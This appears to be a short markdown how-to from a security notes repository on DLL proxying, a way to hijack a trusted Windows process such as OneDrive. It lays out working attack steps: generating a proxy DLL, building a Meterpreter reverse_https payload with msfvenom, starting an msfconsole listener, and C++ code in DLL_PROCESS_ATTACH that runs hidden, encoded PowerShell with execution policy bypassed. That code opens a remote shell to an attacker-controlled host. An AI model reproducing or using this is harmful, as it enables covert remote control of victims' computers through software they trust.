

## DLL proxying
Generating a fake DLL for 

1. Choose a victim process (OneDrive.exe is a common one) and use Procmon (from SysInternals) and look for DLLs which fulfil these conditions 
2. Open Visual Studio and create a new DLL project
3. Use perfect_dll_proxy.py (in usbtools) to generate the .cpp template based on the specified DLL. Run this command on a Windows machine: `python perfect_dll_proxy.py <insecure dll>`
4. Copy the contents of the generated .cpp file into the dllmain.cpp in the source files of the project
5. `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<kali ip> LPORT=<port> -f psh-cmd`
6. `msfconsole` -> `use exploit/multi/handler` -> `set PAYLOAD windows/x64/meterpreter/reverse_https` -> `set LHOST <kali ip>` -> `set LPORT <port>` -> `exploit`
7. Replace the code in case DLL_PROCESS_ATTACH with this code:
```
case DLL_PROCESS_ATTACH:
    {
        STARTUPINFOA si = { 0 };
        PROCESS_INFORMATION pi = { 0 };
        si.cb = sizeof(si);
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;

        CreateProcessA(
            NULL,
            (LPSTR)"cmd.exe /c powershell -ep bypass -enc  <paste the base64 stuff in the output of 5 here>",
            NULL,
            NULL,
            FALSE,
            CREATE_NO_WINDOW,
            NULL,
            NULL,
            &si,
            &pi
        );

    }
```